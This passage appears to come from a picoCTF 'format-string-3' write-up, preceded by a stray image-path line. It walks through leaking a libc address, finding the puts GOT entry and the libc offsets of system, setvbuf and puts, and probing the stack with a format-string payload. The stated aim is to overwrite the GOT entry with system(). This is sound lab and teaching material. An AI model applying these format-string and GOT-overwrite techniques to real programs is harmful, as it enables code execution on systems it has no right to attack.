     $ nc rhea.picoctf.net 52365
    Howdy gamers!
    Okay I'll be nice. Here's the address of setvbuf in libc: 0x70210ee2b3f0

    $ nc rhea.picoctf.net 52365
    Howdy gamers!
    Okay I'll be nice. Here's the address of setvbuf in libc: 0x7628a439d3f0

Using `objdump` we can find the `puts()` GOT entry address, which was found to be `0x404018`, this will be our target address to rewrite to replace it with the address of `system()` :

    $ objdump -M intel -d format-string-3 > format-string-3.objdump.txt

    $ cat format-string-3.objdump.txt | grep puts
    0000000000401080 <puts@plt>:
      401084:	f2 ff 25 8d 2f 00 00 	bnd jmp QWORD PTR [rip+0x2f8d]        # 404018 <puts@GLIBC_2.2.5>
      40121d:	e8 5e fe ff ff       	call   401080 <puts@plt>
      4012f2:	e8 89 fd ff ff       	call   401080 <puts@plt>

Use the provided `libc` shared object to determine the offsets of the two functions of interest, these will be the offsets from the randomised `libc` base address ultimately:

    $ readelf -s libc.so.6 | grep system
      1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
    $ readelf -s libc.so.6 | grep setvbuf
      1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
    $ readelf -s libc.so.6 | grep puts
      1459: 0000000000079bf0   550 FUNC    WEAK   DEFAULT   16 puts@@GLIBC_2.2.5     

As the base address of `libc` is randomised, we will need to parse the output of `format-string-3` when it displays the location of `setvbuf()` to subtract it's offset (`0x07a3f0`) into `libc` to find the current base address.

Using a typical stack dumping info leak mechanism to locate `buf` on the stack, using a token that can be readily located, in this case the string "AAAAAAAA", which we'll find in hexadecimal form as `0x4141414141414141`. The first instance (string representation) in the output is just our token being printed by `printf()` and not the contents of `buf`.

    $ echo $(python3 -c 'print("A"*8 + ".0x%016llx"*50)') | ./format-string-3 
    Howdy gamers!
    Okay I'll be nice. Here's the address of setvbuf in libc: 0x7771492973f0
    AAAAAAAA.0x00007771493f5963.0x00000000fbad208b.0x00007fff764d66d0.0x0000000000000001.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x0000000000000000.0x0000000000000000.0x0000000000000000.
    0x0000000000000000.0x4141414141414141.0x6c3631302578302e.0x31302578302e786c.
    0x2578302e786c6c36.0x302e786c6c363130.0x786c6c3631302578.0x6c3631302578302e.
    0x31302578302e786c.0x2578302e786c6c36.0x302e786c6c363130.0x786c6c3631302578.
    0x6c3631302578302e.0x31302578302e786c
    /bin/sh
